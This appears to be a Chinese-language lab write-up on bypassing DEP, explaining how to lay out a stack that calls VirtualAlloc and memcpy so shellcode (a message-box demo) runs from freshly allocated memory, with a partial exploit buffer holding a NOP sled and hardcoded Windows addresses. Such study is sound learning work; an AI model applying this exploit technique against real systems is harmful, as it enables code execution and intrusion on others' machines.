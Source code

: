 实验环境：
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1jsp9hnxsj20i60c5ac2.jpg)

VirtualAlloc函数的具体实现流程
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1jstbxcwxj20a707bwfd.jpg)
整体的应该和前面的VirtualProtect差不多，都是对几个调用的参数进行布置，而且VirtualAlloc中的参数不存在动态确定的问题，所以可以直接布置在shellcode

作者给出的参数是这样的，具体可以在MSDN里面查看
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1jsyxy28nj20lb05uq4w.jpg)

和前面一样的方法找到函数所在的位置,在call的地方作为切入点


	**这里需要注意的是，函数push的ebp+0xxx的位置是定的，但esp栈顶指针是不一定的，之所以要push定值是防止esp乱动，也就是说，只要我们在call的时候让esp指向所调用的函数的第一个参数，然后后面接下去就可以了，并不一定要把参数布置在那几个push的位置（前面几题也都是这样的情况）所以一般我们布置完栈之后只要从call切入就行，除非是esp无法收回就提前布置好参数，再用push压栈进行调用**


![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1jt5230gjj20yu0gn0ua.jpg)

首先还是老套路，先修复下ebp（不修复的话ebp位置差的有点远）
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1jte6759vj21070kgtao.jpg)
修复完之后看下栈就可以开始布置shellcode了
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1jtflwq1lj20zx0lm40d.jpg)
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1oa5yb52oj212y0mftb5.jpg)

已经完成了布置栈，接下来的问题就是我们该如何拿回程序的控制权，还是先修复栈
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1oa77fjn8j212t0ls76e.jpg)

前面注意retn 10
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1oa8h4hy5j214e0mf76p.jpg)

接下来我们的目的就是调用memcpy把我们的shellcode复制到前面申请的内存中去。
来看一下memcpy函数。ctrl+g直接找memcpy，可以看到memcpy三个函数所在的位置，这里是需要提前在ebp+xx的位置提前布置好。
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1oa9kzijjj213a0njtb6.jpg)

这里我和作者的不一样，我把弹窗的shellcode另外建了个数组，找到它的位置，然后直接从这个地址开始复制
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1oaa9g8g0j20jd08l0tf.jpg)

复制完之后我们可以在已经开辟的空间里面有shellcode
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1oabky3uuj20gw06c0t2.jpg)
同时eax的值正好是前面的返回地址，所以直接调用call/jmp eax就可以了。
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1oacgsuuej210s0engn4.jpg)

	char shellcode1[]=
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\xe5\x0b\x76\x7d"	  //ebp
	"\x04\x9b\x80\x7c"    //VirtualAlloc
	"\x90\x90\x90\x90"
	"\xff\xff\xff\xff"
	"\x00\x00\x03\x00"    //1